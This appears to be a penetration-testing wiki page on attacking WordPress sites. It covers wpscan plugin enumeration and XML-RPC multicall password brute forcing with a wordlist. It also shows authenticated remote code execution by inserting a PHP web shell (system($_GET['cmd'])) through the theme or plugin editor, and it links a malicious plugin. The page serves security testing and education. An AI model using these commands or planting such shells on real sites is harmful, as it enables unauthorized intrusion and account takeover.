 ```yaml
---
description: A popular Content Management System (CMS) for static content, with a visual UI
---
```


# WordPress

## # Related Pages

{% content-ref url="../php.md" %}
[php.md](../php.md)
{% endcontent-ref %}

## WPScan

The state-of-the-art security scanner for WordPress is `wpscan`, checking and enumerating many different vulnerabilities from plugins, backup files, and other WordPress-specific errors.&#x20;

{% embed url="https://wpscan.com/wordpress-cli-scanner" %}
WordPerss security scanner
{% endembed %}

See the [API Setup](https://github.com/wpscanteam/wpscan?tab=readme-ov-file#optional-wordpress-vulnerability-database-api) for instructions on how to use their API to get real-time updates of vulnerability data such as versions of plugins. This is highly recommended to make sure you find the newest CVEs.

The following command starts such a scan with extra options enabled and writes the output to a file:

{% code overflow="wrap" %}
```bash
wpscan --url http://$IP --enumerate p --plugins-detection aggressive -o wpscan.txt
```
{% endcode %}

The results of such a scan often reveal outdated plugins with vulnerabilities, and/or generic misconfigurations to exploit. Use a search engine here when unsure about exploiting a certain finding.

## XML RPC Brute Force

One vulnerability that is infamous with WordPress is the `/xmlrpc.php` file being public. But what is the real risk you may ask? The main risk is the `system.multicall()` function that you can interact with to send multiple XML RPC requests simultaneously, and the server will process them all separately.&#x20;

You can imagine that for a heavy request, this can amplify one request into a ton of load on the server, possibly resulting in a **Denial of Service** (DoS). Another idea is using the fact that you can send lots of request at the same time to bypass a rate limit, for password attempts, for example. There exists an RPC call to log in with a username and password to the administrator panel, and with this technique you can do so hundreds of times in one request, significantly speeding up the process ([more details](https://blog.cloudflare.com/a-look-at-the-new-wordpress-brute-force-amplification-attack/)).

The following tool implements this idea by guessing many passwords from a wordlist:

{% embed url="https://github.com/aress31/xmlrpc-bruteforcer" %}
Tool to brute force WordPress passwords using XML RPC multicall
{% endembed %}

```bash
xmlrpc-bruteforcer -u $USERNAME -w /list/rockyou.txt -x http://$IP/xmlrpc.php
```

## Authenticated RCE

When authenticated **as an admin**, you can make any changes to the site. This also means you can edit the PHP code that is executed whenever a page is visited, allowing you to write code that executes shell commands.

You should be able to access **Tools** -> **Theme File Editor** to edit the current theme:

```bash
$BASE_URL/wp-admin/theme-editor.php
```

Then, select any `.php` file you think will be executed when you visit a page. By default, there is a `functions.php` file that every other file includes, so it will always be run. Edit such a file to include any PHP code you want to execute:

```php
<?php
system($_GET["cmd"]);
```

After saving, you should be able to access the page to run the code:

```bash
$BASE_URL/?cmd=id
```

{% hint style="warning" %}
If this does not work for any reason, alternatives include the **Tools** -> **Plugin File Editor** with any plugin, then activate it at **Plugins** -> **Installed Plugins** to trigger the code:

<pre class="language-php"><code class="lang-php"><strong>&#x3C;?php
</strong><strong>system("id > /tmp/pwned");
</strong></code></pre>

As a last option, you can always upload your own malicious plugin like this:\
[https://github.com/wetw0rk/malicious-wordpress-plugin](https://github.com/wetw0rk/malicious-wordpress-plugin)
{% endhint %}
